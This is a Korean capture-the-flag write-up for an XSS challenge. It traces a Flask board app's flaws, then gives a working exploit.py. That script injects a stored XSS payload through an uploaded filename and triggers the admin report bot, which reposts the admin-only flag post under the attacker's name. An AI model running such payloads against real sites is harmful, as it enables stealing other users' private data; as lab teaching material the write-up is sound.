

# 2022_fsi_edu_challs(XSS)

```sql
insert into board (subject, content, author, loginid, filepath) values ("flag is here!", "fsi2022{dummy_flag_xss}", "admin", "admin", "flag.txt");
```

init.sql을 보니 플래그가 board 1번 글의 본문에 들어 있었다. 1번 글을 클릭해 보았는데 alert만 뜨고 튕겼다.

```python
def getBoardList(self, req):
	query = f'select seq, subject, author from fsi2022.board where author="{req["author"]}" or (author="admin" and seq="1")'

def getBoardView(self, req):
	query = f'select subject, author, content, filepath from fsi2022.board where author="{req["author"]}" and seq="{req["seq"]}"'

def viewboard(seq):
	results = db.getBoardView({'author':flask.session["userid"], 'seq':seq})
```

목록 쿼리는 admin의 1번 글을 예외로 끼워주는데 본문 쿼리에는 그 예외가 없었다. 제목만 보여주고 본문은 admin만 보게 만든 것이다. author는 서버가 세션에서 꺼내 넣으므로 내가 조작할 수 없고 세션을 admin으로 만드는 것도 중복 체크와 checkUserIDPW에 막혀 안 됐다.

```python
def report():
    url = flask.request.form['url']
    requests.get(f"<http://10.111.0.4:9000/run?url={url}>")
```

게시판에 관리자 신고 버튼이 있었고, 받은 URL을 내부 10.111.0.4:9000으로 그대로 넘기고 있었다.

```python
def write():
    subject = flask.request.form["subject"]
    author = flask.request.form["author"]
    content = flask.request.form["content"]
```

write를 보니 author를 클라이언트 값 그대로 받고 있었다. int에서 same-origin으로 글을 쓰면서 author만 내 계정으로 넣으면 ext 목록 쿼리에 걸려 내 게시판에 보이게 된다.

```python
def safeQuery(self, req):
        for key in req.keys():
            req[key] = re.sub(r"[\"\\\|\&\[\]\!\@\#\$\%]",r'\\\g<0>', req[key])

        return req
```

파일명도 safeQuery를 타므로 쓸 수 있는 문자를 확인했다. 탈출에 쓸 '는 목록에 없어서 그대로 통한다. []를 못 쓰니 배열 인덱싱 대신 indexOf와 substr로 대체하고, &를 못 쓰니 쿼리스트링 대신 FormData를 쓰면 된다.

얻은 정보들을 조합해 페이로드를 구성하면 다음과 같다.

```python
#exploit.py
import re, time, requests

URL = 'http://edu.arang.kr:9090'
INT = 'http://10.111.0.4:9090'
ID = PW = 'ab'

s = requests.Session()
s.post(URL + '/login', data={'userid': ID, 'userpw': PW})

def seqs():
    return [int(x) for x in re.findall(r'fn_view\((\d+)\)', s.get(URL + '/board').text)]

xss = ("');fetch('/board/1').then(r=>r.text()).then(t=>{"
       "var d=new FormData();"
       "d.append('subject','pwn');"
       "d.append('author','%s');"
       "d.append('content',t.substr(t.indexOf('fsi2022'),40));"
       "fetch('/write',{method:'POST',body:d})});//") % ID

s.post(URL + '/write', data={'subject': 'hi', 'author': ID, 'content': 'x'},
       files={'file': (xss, b'A')})

seq = max(seqs())
s.post(URL + '/report', data={'url': '%s/board/%d' % (INT, seq)})

for _ in range(24):
    time.sleep(5)
    if max(seqs()) > seq:
        page = s.get('%s/board/%d' % (URL, max(seqs()))).text
        print(re.search(r'fsi2022\{.*?\}', page).group())
        break
```

성공적으로 flag를 획득 할 수 있다.



fsi2022{dac743122749cecb1112}
